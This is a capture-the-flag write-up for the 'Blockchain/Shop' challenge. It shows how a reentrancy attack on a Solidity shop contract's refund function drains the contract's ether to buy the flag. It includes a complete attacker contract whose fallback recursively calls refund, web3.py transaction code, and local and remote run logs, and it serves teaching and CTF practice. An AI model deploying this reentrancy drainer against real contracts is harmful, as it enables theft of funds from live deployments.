


# Blockchain/Shop
**Writeup Author:** lufimio
**Original Solver:** lufimio
**Point Value:** 498

**Provided Files:**
  - `Shop.sol`

**Description:**
Welcome to the Shop! Just buy the flag for 1337 ETH! Too bad you don't have enough... Note: It is best to deploy your contract through web3 python module (I believe js should also work but have not tested it). Author: NoobMaster

# Solution

This was a difficult challenge, definitely captured by the fact that we solved it a full 13 hours after we solved the previous challenge 💀

## 1st Attempt

we went through multiple iterations on this challenge, at first we were just trying to learn what it was and how to interact with it
some googling plus the challenge description lets you find out that we are working with a smart contract, and that we can interact with it using a python module named web3, 

one of our early attempts was with `shop.py` where we tried to exploit the fact that in the buy function the program isn't adding to the bought array, its setting it, i don't know what we were thinking when we made that as that exploit is only beneficial to the shop, not to us however it helped us learn how to use web3 connecting to the remote host

the only thing we need from web3 is the Web3 class, this holds everything we need
a connection could be made using this line: `w3 = Web3(Web3.HTTPProvider(rpc_url))`
this lets us access all of the functions we need from the server

we got the rpc_url from the netcat server, it also gave us the private_key, contract_address, and wallet_address

even though we got our wallet address from the netcat server we decided to use the address gotten from the rpc server using `w3.eth.account.from_key(private_key).address`

we later fixed this in out final solve script to use both as a safety

we next set up the contract by providing the abi, an interface for the `Shop` contract, and the contract address to the program using the line `contract = w3.eth.contract(address=contract_address, abi=abi)`

the abi was gotten using chatGPT, which we relied on heavily throughout the challange, well at least they did, i (lufimio) did not rely on chatGPT as much as them

just as a reference here is how one of the function is listed in the abi, the whole abi is a list of dicts like this 
```py
{
    "constant": False,
    "inputs": [
        {"name": "item", "type": "uint256"},
        {"name": "quantity", "type": "uint256"}
    ],
    "name": "buy",
    "outputs": [],
    "payable": True,
    "stateMutability": "payable",
    "type": "function"
},
```
this would later be automated using a library in the final script, so i didnt bother learning how to create these

we then define a function to send a transaction, also generated by chatGPT, because reading through the docs was taking too long

but since its important i decided to learn how it works
```py
def send_transaction(function, *args, value=0):
    txn = function(*args).build_transaction({
        'from': wallet_address,
        'nonce': w3.eth.get_transaction_count(wallet_address),
        'gas': 3000000,
        'gasPrice': w3.to_wei('1', 'gwei'),
        'value': value
    })
    signed_txn = w3.eth.account.sign_transaction(txn, private_key=private_key)
    tx_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
    return tx_hash
```
the transaction takes in the name of the function, the arguments of the function and the amount of ether to pass to the function
we first define the transaction block, this includes 
 - the sender's (our) address (`wallet_address`), 
 - the nonce, which is the number of transactions out wallet has made, 
 - the maximum amount of gas we can use, 
 - the price of the gas, gas being a payment to the host to process the block, the higher the price, the faster it'll be processed,
 - how much ether we want to transfer to the contract
we then sign the transaction using our private key, and then send it

to use the function we just call it and then wait for the receipt, for example, when refunding 1 of item 0 we would do 
```py
tx_hash = send_transaction(contract.functions.refund, cheap_item, quantity)
receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
```

the rest of the first attempt script is irrelevant as it achieves nothing

## 2nd attempt

while the others were working on their 1st attempt, i was also researching about different attacks, i eventually landed on the reentrancy attack as the function `refund` in the Shop smart contract fit all of the requirements namely that we get sent money before the function changes anything that would make us fail the require checks

this function, shown below
```
function refund(uint item, uint quantity) public payable {
    require(0 <= item && item <= 3, "Item does not exist!");
    require(0 < quantity && quantity <= 10, "Cannot refund more than 10 at once!");
    require(bought[item] > 0, "You do not have that item!");
    require(bought[item] >= quantity, "Quantity is greater than amount!");
    msg.sender.call.value((cost[item] * quantity))("");
    bought[item] -= quantity;
}
```
requires that we input a valid item, refund less than 10 of that item, we have that item and we aren't refunding more than we have

the function then refunds is the amount but it doesn't remove the actual item we refunded just yet, that's important

then in the next line we remove the item we refunded from our inventory

to exploit this we look at how `msg.sender.call.value` works: when we call this function, we call another function in the receiving party namely the `receive` function, and if that function doesn't exist, the `fallback` function we can exploit this by recursively calling refund again in the `fallback` function
this creates a chain like this
`refund -> fallback -> refund -> fallback -> refund -> fallback -> refund -> fallback -> ...` with each iteration giving you more and more money

so now it was time to create the attacking script: `Attack.sol`

This was used as a reference: `https://seedsecuritylabs.org/Labs_20.04/Files/Reentrancy_Attack/Reentrancy_Attack.pdf`

in this script i opted to use an interface over importing the whole Shop.sol file as this is generally considered better programming 

this interface only included the function that was going to be used: `refund`
and looks like this
```
interface Shop {
    function refund(uint item, uint quantity) external payable;
}
```
very simple

then we create the `attack` contract and create a constructor that stores a reference to the Shop given as an argument to the constructor
```
contract attack {
    Shop public shop;
    uint public target = 0;

    // initialize the contract with the address of the Shop contract
    constructor(address payable addr) public {
        shop = Shop(addr);
    }
```

we then initiate the attack in the `exploit` function, all it does is refund the item
and we also create the fallback function to create the recursive loop which also only refunds the item
```
// start the exploit by calling the refund function of the Shop contract for reentrancy attack
    function exploit() public payable {
        shop.refund(target, 1);
    }

 // fallback function
    fallback() external payable {
        shop.refund(target, 1);
    }
```

and finally we create a function so we can transfer the money gotten from the exploit, which is stored in the smart contract, to us so we can buy the flag
```
// withdraw the contract's balance to a specified address
    function cashOut(address payable addr) external {
        addr.transfer(address(this).balance);
    }
```

to run this i decided to do it locally using brownie as i could not find any resources on how to deploy it online at that moment and i was running out of time until my parents told me to go to sleep

to do this i installed brownie in a python venv so it wouldn't mess up my system (hopefully) 
i then, in an empty folder ran `brownie init` and it created a brownie project, into which i placed the Shop and Attack contracts so the folder structure looked like this



then i could run `brownie compile` to compile all of the smart contracts into the bytecode and abi and so brownie would know that those contracts exist

then i could run `brownie console` to actually interact with the smart contracts

first i created an instance of the shop:
```
>>> shop = accounts[0].deploy(Shop)
Transaction sent: 0x42a87cd2e7d0291ec1460bbbeca82a5dfea848f18daf2fb0e928a8503f578aec
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 0
  Shop.constructor confirmed   Block: 1   Gas used: 376955 (3.14%)
  Shop deployed at: 0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87
```
i could then interact with it, using all of the functions, like to buy 1 of item 0:
```
>>> shop.buy(0, 1, {'from': accounts[0], 'value': Wei("5 ether")})
Transaction sent: 0x20699d69862c149b571ddd9e352dac1fee52c5870ad6f1071f1ebafb2435ba23
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 1
  Shop.buy confirmed   Block: 2   Gas used: 42490 (0.35%)
<Transaction '0x20699d69862c149b571ddd9e352dac1fee52c5870ad6f1071f1ebafb2435ba23'>
```

i then created the attack contract using the address of the shop: `0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87`
```
>>> attack = accounts[0].deploy(attack, "0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87")
Transaction sent: 0x425a76e58d24ac8ad77277f3dac367d2ef7d4793dc304877a90e7f304cc2309e
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 2
  attack.constructor confirmed   Block: 3   Gas used: 217352 (1.81%)
  attack deployed at: 0xE7eD6747FaC5360f88a2EFC03E00d25789F69291
```

this let me run the attack script, but first, before that i checked my balance as a reference
```
>>> accounts[0].balance().to("ether")
Fixed('95.000000000000000000')
```

i have 95 ether and the single item 0 i bought earlier (worth `5 ether`), this is important, i then run the attack script
```
>>> attack.exploit({'from': accounts[0], 'value': Wei("0 ether")})
Transaction sent: 0x61cee570f310602cae3704ad03e4ec0217d452c1aaf652d93d928ac9f96286f0
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 3
  attack.exploit confirmed   Block: 4   Gas used: 76547 (0.64%)

<Transaction '0x61cee570f310602cae3704ad03e4ec0217d452c1aaf652d93d928ac9f96286f0'>
```

it said it worked, but when i check the total balance of mine plus the attack contract's:
```
>>> accounts[0].balance().to("ether")
Fixed('95.000000000000000000')
>>> attack.balance().to("ether")
Fixed('5.000000000000000000')
```
it only adds up to `100 ether`, we didn't duplicate money

now at this point my parents were yelling at me to go to sleep, they even threatened to block my internet access and take my computer

and as i begged for them to wait they finally snapped and blocked my internet and took my computer, i was stuck, i couldn't solve it, and i couldn't use google to help, so i went to sleep hoping a well rested mind could help and it did, a lot

## 3rd attempt

Lolmenow here. Okay so while seeing everyone else suffer (including myself woooh!) I watched many youtube videos regarding reentrancy attacks.

Many creators had full walkthroughts on how to do this (even remotely!) through remix. Now, there was a problem with this, which will be explained below.

GPT made a convincing attack.sol (different than the one in current dir) and I wanted to try it on the remote server since my teammate, tao, said it worked locally.

The problem is that the challenge author did not accept http requests from the rpc server through remix.



**UPDATE 08/08/2024: Apparently it was NOT a server side issue, it is a client side issue. Due to CORS being enabled by default on all browsers, the RPC url won't connect on remix. All you have to do is disable CORS and it should connect remotely on remix.**

My thought went to begging to the admins to allow http requests!

Lets say, it ended with this message:


I did not know how to use web3 py and remix was my only solution at the time, so I just forfeited and went to bed :(


## 4th and final attempt

it was 7:30 AM when i (lufimio) woke up, i immediately got onto the computer to check for any progress and there was progress but i didn't understand any of it, so i had to continue where i left off yesterday

### local
Luckily i had an idea when i was sleeping, maybe it was because the shop contract didn't have any money!
so i checked the console again and ran the following command
```
>>> accounts[0].deploy(Shop, amount=Wei('90 ether'))
  OMMITTED FOR CLARITY
BadResponseFormat: The response was in an unexpected format and unable to be parsed. Response cannot include both "error" and "result". The raw response is: OMMITED FOR CLARITY 'error': {'message': 'VM Exception while processing transaction: revert', OMMITED FOR CLARITY}
```
it didnt work and i had no idea why, but i had one more idea
this would be a bit more convoluted though
 - i would buy 3 of item 2
 - this would cost `69 ether` so the shop contract would have 69 ether
 - i would then buy 1 item 0 for `5 ether`
 - the shop would then have `74 ether` i would have `26 ether` and the attack contract would have none
 - if the attacking script worked the shop would have `4 ether` (as a remainder), i would have `26` and the attack contract would have `70 ether`
 - the shop would also record 3 of item 2 as being in our inventory so if we ran refund on those items it would fail on the fact that the shop contract didn't have enough money, not any of the requires

now i had to put it into execution
first i set up the contracts
```
>>> shop = accounts[0].deploy(Shop)
Transaction sent: 0x42a87cd2e7d0291ec1460bbbeca82a5dfea848f18daf2fb0e928a8503f578aec
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 0
  Shop.constructor confirmed   Block: 1   Gas used: 376955 (3.14%)
  Shop deployed at: 0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87

>>> attack = accounts[0].deploy(attack, "0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87")
Transaction sent: 0xa0598f3098f3870b9ac60f024f195fb8496ebc55632b84eacc84be59224e77ee
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 1
  attack.constructor confirmed   Block: 2   Gas used: 217352 (1.81%)
  attack deployed at: 0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6
```

then i bought 3 of item 2
```
>>> shop.buy(2, 3, {'from': accounts[0], 'value': Wei("69 ether")})
Transaction sent: 0x320e265ce85386c3f9c655c0932d8087406193fb74829e0d701f80a2e4bba4bc
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 2
  Shop.buy confirmed   Block: 3   Gas used: 42502 (0.35%)

<Transaction '0x320e265ce85386c3f9c655c0932d8087406193fb74829e0d701f80a2e4bba4bc'>
```

now time for the attack
```
>>> shop.buy(0, 1, {'from': accounts[0], 'value': Wei("5 ether")})
Transaction sent: 0x2e3af5d782e6e9f692caf04342a20d751883ca6d2873b9a91a01b79300b780d2
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 3
  Shop.buy confirmed   Block: 4   Gas used: 42490 (0.35%)

<Transaction '0x2e3af5d782e6e9f692caf04342a20d751883ca6d2873b9a91a01b79300b780d2'>
>>> attack.exploit({'from':accounts[0]})
Transaction sent: 0xe9f81c366b37f412feab8d72a190b1dd20ecf8bd0fa058a40ace70260fe6932a
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 4
  attack.exploit confirmed   Block: 5   Gas used: 295064 (2.46%)

<Transaction '0xe9f81c366b37f412feab8d72a190b1dd20ecf8bd0fa058a40ace70260fe6932a'>
```

did it work... we'll see, we check all the balances
```
>>> accounts[0].balance().to("ether")
Fixed('26.000000000000000000')
>>> attack.balance().to("ether")
Fixed('70.000000000000000000')
>>> shop.balance().to("ether")
Fixed('4.000000000000000000')
```

**IT WORKED!!!!**
ok now time to check our inventory
```
>>> shop.refund(2, 3, {'from':accounts[0]})
Transaction sent: 0x179409994c7209855f2c435953c7f8debca771b766f61af773a6651e3a845dd2
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 5
  Shop.refund confirmed   Block: 6   Gas used: 22472 (0.19%)

<Transaction '0x179409994c7209855f2c435953c7f8debca771b766f61af773a6651e3a845dd2'>
>>> accounts[0].balance().to("ether")
Fixed('26.000000000000000000')
>>> attack.balance().to("ether")
Fixed('70.000000000000000000')
>>> shop.balance().to("ether")
Fixed('4.000000000000000000')
```

wait, it didn't fail!?
but it didn't give a require error either
it must have reverted
that means it worked
**IT WORKED!!!!!!**

### remote

ok so now all i had to do was make it work on the remote, some frantic googling later, i found a video from an old google ctf that did a similar challenge i could use

copying that pretty much line for line, well at least the parts that compile and connect the local code to the remote
gives me this
```py
install_solc('0.6.8')
set_solc_version('0.6.8')
compiled_sol = compile_files(["Shop.sol", "Attack.sol"], output_values=['abi', 'bin'])
shopContract = compiled_sol['Shop.sol:Shop']
attackContract = compiled_sol['Attack.sol:attack']

exploit = web3.eth.contract(bytecode=attackContract['bin'], abi=attackContract['abi'])
shop = web3.eth.contract(address=contract_address, abi=shopContract['abi'])
tx_hash = send_transaction(exploit.constructor, contract_address)
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
attack = web3.eth.contract(tx_receipt.contractAddress, abi=attackContract['abi'])
print(f"Attack deployed at address: {tx_receipt.contractAddress}")
```
now all we need to do is employ the strategies we used in attempt 1 and we should get the flag
writing the whole program gets us `solve.py`
now for a quick explanation
 - lines 10 - 26 connect to the netcat server and get our information
 - lines 28 - 35 connect to the rpc server and check if we have enough starting money to perform the exploit
 - lines 44 - 54 define the `send_transaction` function from attempt 1
 - lines 56 - 68 compile and connect the local contracts to the remote contracts
 - lines 70 - 90 are the exploit repeated multiple times so we have enough money, we outlined the explot in the local attempt, however since the Shop already has money we dont need to buy any item 2
 - lines 90 - 102 assert that we have enough money to buy the flag (item 3) and buy it

running the program gives us the output:
```
>>> python3 solve.py
[x] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999
[x] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999: Trying 64.23.154.146
[+] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999: Done
[*] Closed connection to blockchain.n00bzUnit3d.xyz port 39999
contract_address='0x87473d78E347c4061315331D55cb20FBd10064B3'
rpc_url='http://64.23.154.146:46029'
private_key='0x23cd124173952595228f05c9ffbd7cf72bb9ddcfdcd8ad1c983d9709749dac0d'
wallet_address='0xF530A18F3EF24B319F27DCAAE6F4407070a275D3'
secret='55c84924d938a9b84d129874a104efc85fb849ca4be59990ced3857f92c574e8'
Account Address: 0xF530A18F3EF24B319F27DCAAE6F4407070a275D3
Account Balance: 9 ether
Attack deployed at address: 0xEb20341737B3059e0F6E4384C11293844df82036
iteration 1
Shop balance: 2999.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 343.998940497 ether
iteration 2
Shop balance: 2664.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 678.998148872 ether
iteration 3
Shop balance: 2329.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 1013.997357247 ether
iteration 4
Shop balance: 1994.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 1348.996565622 ether
iteration 5
Shop balance: 1659.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 1683.995773997 ether
iteration 6
Shop balance: 1324.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 2018.994982372 ether
iteration 7
Shop balance: 989.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 2353.994190747 ether
iteration 8
Shop balance: 654.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 2688.993399122 ether
iteration 9
Shop balance: 319.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 3003.992747141 ether
iteration 10
Shop balance: 4.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 3003.992637968 ether
iteration 11
Shop balance: 4.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 3003.992528795 ether
iteration 12
Shop balance: 4.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 3003.992419622 ether
iteration 13
Shop balance: 4.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 3003.992310449 ether
iteration 14
Shop balance: 4.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
iteration 15
Shop balance: 4.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 3003.992092103 ether
RECIPT OMMITED
RECIPT OMMITED note: recipt conforms the solve
```

IT WORKED!!! however this program only buys the flag, we still need to submit it and get the actual flag, and since the program prints out the secret key we can do that manually
```
>>> nc blockchain.n00bzUnit3d.xyz 39999
[1] Get an instance
[2] Get the flag
Choice: 2
Please enter the hash provided during deployment: 0dc5358c1fe0606e02095431e657c746956ff12458be7622206f085ed43bfd79
Flag: n00bz{5h0uld_h4v3_sub7r4ct3d_f1r5t}
```

and we get the flag: `n00bz{5h0uld_h4v3_sub7r4ct3d_f1r5t}`

*PS: Cpcsec, if you are reading this, you are now on our watch list for sniping us*
